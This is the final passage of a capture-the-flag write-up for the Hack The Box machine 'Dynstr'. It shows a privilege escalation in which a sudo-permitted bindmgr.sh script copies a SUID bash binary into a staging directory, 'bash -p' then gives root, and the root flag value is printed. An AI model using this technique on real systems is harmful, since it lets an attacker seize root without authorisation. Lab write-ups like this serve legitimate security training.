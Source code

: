 Now everything is set, let’s execute the script.

```
bindmgr@dynstr:~/test$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /home/bindmgr/test.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors:
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```

After executing the script it check for version file and copy everything to staging directory. The error is insignificance, because the copying has been successfully done. If error occurs before staging then we need to look into that error.

Now we can access the bash binary from /etc/bind/named.bindmgr/ directory and read root flag.

```other
bindmgr@dynstr:~/test$ /etc/bind/named.bindmgr/bash -p

bash-5.0# id
uid=1001(bindmgr) gid=1001(bindmgr) euid=0(root) egid=117(bind) groups=117(bind),1001(bindmgr)

bash-5.0# cat /root/root.txt
1df144c619dd82a95583d062b2ca7682
```

# References

[http://manpages.ubuntu.com/manpages/cosmic/man1/nsupdate.1.html](http://manpages.ubuntu.com/manpages/cosmic/man1/nsupdate.1.html)

[Dynamic DNS Update API | Dyn Help Center](https://help.dyn.com/remote-access-api/)
